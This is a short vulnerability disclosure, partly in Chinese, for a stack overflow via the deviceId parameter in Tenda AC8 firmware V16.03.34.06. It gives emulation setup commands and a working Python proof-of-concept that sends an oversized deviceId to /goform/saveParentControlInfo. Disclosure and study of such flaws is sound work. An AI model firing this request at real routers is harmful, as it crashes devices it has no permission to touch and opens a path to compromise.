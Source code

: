 get_parentControl_list_Info 栈溢出
-------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

Tenda AC8V4.0-V16.03.34.06 be discovered to contain a stack overflow via the deviceid parameter in the get\_parentControl\_list\_Info function.
![image](https://github.com/user-attachments/assets/c917cda1-c4fa-4c92-ab1b-f1af1cde1d3f)



Call chain : saveParentControlInfo -> saveParentControlInfo -> get\_parentControl\_list\_Info

### poc

Because saveParentControlInfo calls get\_parentControl\_list\_Info, But there are actually two different stack overflow triggers in saveParentControlInfo and get\_parentControl\_list\_Info

```text-plain
import requests

IP = "192.168.142.100"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=deviceid"+ "R" * 0x300
url += "&enable=enable"
url += "&time=time"
url += "&url_enable=url_enable"
url += "&urls=urls"
url += "&day=day"
url += "&block=block"

response = requests.get(url)
print(response.content)
```
![image](https://github.com/user-attachments/assets/fd40fc46-527c-4175-8e00-38fddec43ad0)

